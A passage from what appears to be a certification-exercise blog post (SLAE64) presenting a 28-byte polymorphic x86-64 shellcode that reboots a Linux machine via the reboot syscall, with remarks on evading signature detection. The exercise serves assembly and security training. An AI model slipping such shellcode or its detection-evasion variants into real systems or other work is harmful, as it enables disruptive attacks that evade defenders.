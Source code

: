    BITS 64

    section .text
    global _start

    _start:
      push 0x4321fedc
      pop rdx
      push 0x16041998
      pop rsi
      push 0x11e2152
      pop rdi
      not edi
      push 0xa9
      pop rax
      syscall

Note that to run this you will need to be root or use `sudo` for the `reboot` syscall.

This shellcode is just within the problem requirements at exactly 28 bytes:

![poly reboot len](/static/blog/2018/SLAE64/6/poly_reboot_len.png)

And here's a screenshot to prove it worked ;):

![poly reboot](/static/blog/2018/SLAE64/6/poly_reboot.png)

#### Conclusion Note
One thing I wanted to note form this exercise is that it underscores how many different byte patterns may achieve the same functionality. This is true from assembly to scripting languages... detection is hard.

All code referenced in this blog post is available at: <https://github.com/mrT-F/SLAE64/tree/master/6>

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification* 

*Certification at: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>*

*Student ID: SLAE64 - 1546*